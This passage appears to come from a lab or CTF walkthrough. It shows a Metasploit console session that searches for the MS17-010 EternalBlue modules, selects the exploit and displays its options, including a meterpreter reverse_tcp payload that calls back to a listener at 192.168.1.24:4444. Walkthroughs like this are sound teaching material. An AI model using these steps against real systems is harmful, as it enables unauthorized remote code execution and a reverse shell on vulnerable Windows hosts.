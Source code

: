 Good o' Metasploit has a module that can exploit this vulnerability. You can read more abou the same in [rapid7's blog](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/).

```bash
msf6 > search eternal

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 tar
                                             get machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                             machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.24     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```